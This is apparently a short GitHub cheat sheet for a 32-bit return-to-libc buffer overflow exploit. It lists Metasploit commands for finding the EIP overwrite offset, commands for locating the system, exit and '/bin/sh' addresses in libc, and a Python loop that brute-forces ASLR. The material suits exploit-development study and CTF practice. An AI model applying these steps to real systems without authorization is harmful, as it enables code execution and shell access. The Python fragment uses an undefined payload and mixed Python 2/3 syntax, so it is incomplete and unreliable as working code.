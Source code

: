 # Python buffer overflow template - rop - return libc


## Find EIP overwrite offset


### Create a crafted payload
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
```

### Look for segmentation fault address

```bash
Program received signal SIGSEGV, Segmentation fault.
0x62413762 in ?? ()
```

### Get offset 

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x62413762
[*] Exact match at offset 52
```

## Find offsets


### libc static pointer
```bash
ldd <binary> |grep libc
```

### system function
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 |grep system
```

### exit function
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 |grep exit
```

### find pointer to /bin/sh
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 |grep /bin/sh
```

# ASLR bruteforce (optional)

**Is ASLR enabled? Run ASLR Bruteforce**

```python
i = 0
while (i < 512):
 i += 1
 print("Try {0}".format(i))
 ret = subprocess.call(["/home/user/<binary>",buf])
 print ret
```